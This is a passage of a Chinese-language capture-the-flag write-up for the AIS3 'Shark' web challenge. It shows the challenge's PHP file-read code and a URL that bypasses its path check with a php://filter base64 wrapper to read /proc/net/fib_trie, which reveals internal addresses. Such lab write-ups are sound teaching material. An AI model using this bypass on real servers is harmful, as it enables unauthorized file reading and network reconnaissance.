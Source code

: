 有點亂碼，不過正解flag是:

```
AIS3{H0w_c4n_y0u_f1nd_me?!?!?!!}
```

### Web - Shark

提示說是去年的考古題，所以就直接拿來用wwww

先用他給的path看index.php:

```php
<?php

    if ($path = @$_GET['path']) {
        if (preg_match('/^(\.|\/)/', $path)) {
            // disallow /path/like/this and ../this
            die('<pre>[forbidden]</pre>');
        }
        $content = @file_get_contents($path, FALSE, NULL, 0, 1000);
        die('<pre>' . ($content ? htmlentities($content) : '[empty]') . '</pre>');
    }

?><!DOCTYPE html>
<head>
    <title>🦈🦈🦈</title>
    <meta charset="utf-8">
</head>
<body>
    <h1>🦈🦈🦈</h1>
    <a href="?path=hint.txt">Shark never cries?</a>
</body>

```

開頭不能是`/`和`.`，所以用php filter 繞過去，看/proc/net/fib_trie，看去年的writeup官方還給了[這個網站](http://wp.blkstone.me/2018/06/abusing-arbitrary-file-read/#421)讓你找東西玩wwww

```
https://shark.ais3.org/?path=php://filter/convert.base64-encode/resource=/proc/net/fib_trie
```

```
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.22.0.0/16 2 0 2
        +-- 172.22.0.0/30 2 0 2
           |-- 172.22.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.22.0.3  <--- 主機
              /32 host LOCAL
        |-- 172.22.255.255
           /32 link BROADCAST
Local:
  +-- 0.0.0.0/0 3 0 5
```